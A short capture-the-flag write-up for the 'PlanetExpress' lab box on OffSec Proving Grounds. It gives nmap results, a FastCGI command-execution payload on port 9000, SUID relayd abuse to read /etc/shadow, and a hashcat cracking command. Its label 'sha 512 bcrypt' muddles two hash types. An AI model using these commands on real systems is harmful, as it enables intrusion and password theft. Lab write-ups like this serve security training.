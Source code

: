 # PlanetExpress

## Intro

PlanetExpress is a 'warm up' category linux box from offsec proving grounds.  

## Enum

### Nmap

All tcp ports scanned with nmap.

```
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
9000/tcp open  cslistener? syn-ack ttl 61
```

### Directories

The following directory was found.  

`/config/config.yml`


## User

Fast cgi script, see hacktricks pentesting fast-cgi 9000.  

`python fpm.py -c "<?php passthru('id'); ?>" -p 9000 192.168.232.205 /var/www/html/planetexpress/plugins/PicoTest.php | head -n 10`


## Root

relayd binary has suid.  

`/usr/sbin/relayd -C /etc/shadow`

Crack root password (sha 512 bcrypt).  

`hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

